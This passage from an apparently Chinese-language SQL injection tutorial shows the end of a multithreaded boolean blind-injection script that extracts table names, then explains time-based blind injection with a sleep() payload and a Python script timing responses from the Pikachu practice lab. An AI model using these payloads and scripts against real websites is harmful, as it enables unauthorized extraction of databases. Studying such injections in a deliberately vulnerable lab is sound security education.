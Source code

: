 ````python
            html = response.text

            if html.find("您输入的username不存在，请重新输入！") == -1:
                name = name + chr(j)

                print("第%d个数据表名称的第%d位是%s" % (k + 1, i, name))
                break

    names = name + ',' + names


if __name__ == '__main__':

    threads = []
    for k in range(0, 8):
        t = threading.Thread(target=run, args=(k,))
        threads.append(t)

    for t in threads:
        t.start()

    while True:
        # 判断当前线程数
        if len(threading.enumerate()) == 1:
            print("The names of these data tables are " + names)
            break

````

由于循环次数过大，所以使用多线程进行访问。

### 时间盲注

通常因为正确错误返回结果相同，无法进行判断对错，所以使用该注入方法。

使用 mysql 中的 sleep 函数，根据页面的返回时间进行判断是否正确。

```sql
kobe' and if (length(database()) = 7, sleep(3), 0) #
```

python脚本：

```python
# 时间盲注：获取数据库长度

import requests

ip = 'http://192.168.31.195/'

parameter = "kobe' and if (length(database()) = %d, sleep(3), 0) --+"

address = 'pikachu/vul/sqli/sqli_blind_t.php?name='

for i in range(1, 10):
    url = ip + address + (parameter % i) + "&submit=查询"

    response = requests.get(url)

    t = response.elapsed.total_seconds()

    if t > 3:
        print("The database length is %d" % i)
```
